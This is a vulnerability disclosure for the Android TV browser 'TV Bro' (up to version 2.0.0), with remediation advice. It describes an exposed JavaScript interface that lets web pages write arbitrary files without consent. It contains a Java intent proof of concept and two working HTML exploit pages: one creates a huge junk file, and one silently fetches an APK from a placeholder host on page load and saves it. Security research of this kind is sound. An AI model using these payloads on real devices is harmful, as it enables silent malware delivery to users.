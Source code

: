 
---

## Vulnerability Report: `com.phlox.tvwebbrowser` 'TV Bro' Version <= 2.0.0

### Vulnerability: Arbitrary File Creation & Download via JavaScript Code Injection in WebView

**Severity**: 🔴 High

### Details:

The `com.phlox.tvwebbrowser` application mishandles external intents through WebView, allowing for both Arbitrary Code Execution (ACE) and, more critically, arbitrary file creation and downloads using specially crafted URIs.

The arbitrary file creation and download risk arises from the ability to generate Base64 encoded strings representing any file content. An attacker can craft these strings and instruct the WebView to decode and save them as files on the user's device without their consent.

**Proof of Concept**:

![Proof of Concept](https://github.com/actuator/com.phlox.tvwebbrowser/blob/main/TVBro.gif)

```java
Intent intent = new Intent(Intent.ACTION_VIEW);
intent.setComponent(new ComponentName("com.phlox.tvwebbrowser", "com.phlox.tvwebbrowser.activity.main.MainActivity"));
intent.setData(Uri.parse("http://ampulicidae.com")); // any URL
startActivity(intent);
```

**CWE Reference**:
- [CWE-94](https://cwe.mitre.org/data/definitions/94.html): Improper Control of Generation of Code ('Code Injection')
- [CWE-434](https://cwe.mitre.org/data/definitions/434.html): Unrestricted Upload of File with Dangerous Type 

### Remediation Steps:
1. Restrict External Intent Handling: In `AndroidManifest.xml`, set the `exported` attribute for the affected activity to `false`.
2. URI Sanitization: Implement strict validation and sanitation for URIs.
3. Validate Base64 Data: Before allowing any Base64 decoding in WebView, validate the content to ensure it does not contain malicious data.

### Addendum:

The `com.phlox.tvwebbrowser` application exposes a JavaScript interface, TVBro, to its WebView component. This poses several security risks:

- **Resource Exhaustion**: Creating extremely large files using `takeBlobDownloadData` method.
- **Arbitrary File Creation/Downloads**: The most critical vulnerability. Files with any content can be created and downloaded without user consent, just by encoding malicious data in Base64.

**Proof of Concepts**:

```html
<!-- Simple HTML code to demonstrate vulnerability -->
<!DOCTYPE html>
<html lang="en">
<head>
    <title>TV Bro Exploit Demo</title>
</head>
<body>
    <button onclick="triggerExploit()">Trigger Exploit</button>
    <div id="status"></div>
    <script>
        function generateRandomBase64String(length) {
            let characters = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/';
            let result = '';
            for (let i = 0; i < length; i++) {
                result += characters.charAt(Math.floor(Math.random() * characters.length));
            }
            return result;
        }
        function triggerExploit() {
            const base64Data = generateRandomBase64String(500000);
            const fileName = 'exploit.txt';
            const url = 'http://ampulicidae.com'; 
            const mimeType = 'text/plain';
            if (window.TVBro && typeof window.TVBro.takeBlobDownloadData === 'function') {
                document.getElementById('status').innerText = "Invoking...";
                window.TVBro.takeBlobDownloadData(base64Data, fileName, url, mimeType);
            } else {
                document.getElementById('status').innerText = "Interface not found.";
            }
        }
    </script>
</body>
</html>
```

```html
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Exploit PoC</title>
</head>

<body>

<script>
    // Upon page load, check if the TVBro interface is available and trigger download.
    window.onload = function() {
        const apkURL = 'https://yourdomain.com/path/to/yourfile.apk';
        const mimeType = 'application/vnd.android.package-archive';

        if (window.TVBro && typeof window.TVBro.takeBlobDownloadData === 'function') {
            // Fetch the APK file as a blob
            fetch(apkURL).then(response => response.blob()).then(blob => {
                const reader = new FileReader();
                reader.readAsDataURL(blob);
                reader.onloadend = function() {
                    const base64data = reader.result.split(',')[1];
                    window.TVBro.takeBlobDownloadData(base64data, 'yourfile.apk', apkURL, mimeType);
                }
            });
        }
    }
</script>

</body>

</html>

```
---

